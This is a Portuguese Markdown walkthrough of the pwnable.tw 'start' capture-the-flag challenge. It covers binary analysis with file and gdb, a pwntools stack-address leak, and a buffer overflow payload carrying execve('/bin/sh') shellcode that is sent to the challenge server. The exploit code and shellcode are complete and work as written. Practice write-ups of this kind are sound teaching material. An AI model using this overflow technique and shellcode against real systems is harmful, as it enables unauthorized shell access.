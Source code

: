 Aqui está uma versão simplificada e destacada do seu exploit em Markdown para facilitar a leitura e compreensão no GitHub:

```markdown
# Exploit Walkthrough

Este documento explica o processo de exploração de uma vulnerabilidade em um binário ELF de 32 bits.

## 1. Análise Inicial

Para iniciar a análise, foi utilizado o comando `file` para determinar que o binário era um executável ELF de 32 bits, estático e não depurado.

```bash
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

## 2. Disassembly e Identificação de Funções

Utilizando o `gdb`, foi realizada a desmontagem (_disassembly_) da função `_start` para entender o fluxo do programa.

```gdb
(gdb) disas _start
```

Aqui foi possível identificar as instruções iniciais que configuram os registradores e a pilha.

## 3. Definindo o Ponto de Interrupção

Um ponto de interrupção foi definido em `_start+57`, logo após a execução da interrupção `int $0x80` que realiza uma chamada ao sistema para escrever na saída padrão.

```gdb
(gdb) break *_start+57
(gdb) r
```

## 4. Explorando a Vulnerabilidade

O objetivo é manipular a execução para injetar e executar um shellcode.

### 4.1 Leak do Endereço da Pilha

Primeiro, precisamos vazar o endereço da pilha. Para isso, utilizamos o seguinte código:

```python
def leak(r):
    buf = b"A" * 20
    buf += p32(0x08048087)  # Endereço que aponta para o próximo push
    r.recvuntil(b'CTF:')
    r.send(buf)

    response = r.recv(4)
    esp = u32(response)
    print(f"[+] ESP is at {hex(esp)}")
    
    return esp
```

### 4.2 Envio do Payload

Com o endereço da pilha em mãos, preparamos o payload para injetar o shellcode na memória:

```python
def exploit(r, esp):
    buf = b"A" * 20
    eip = p32(esp + 20)

    # Shellcode para execução de `/bin/sh`
    shellcode = b'\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

    payload = buf + eip + shellcode
    
    print("[+] Sending Payload")
    r.send(payload)
    
    r.interactive()
```

## 5. Conexão e Exploração

Finalmente, criamos uma conexão com o serviço remoto e executamos o exploit:

```python
r = remote('chall.pwnable.tw', 10000)
esp = leak(r)
exploit(r, esp)
```
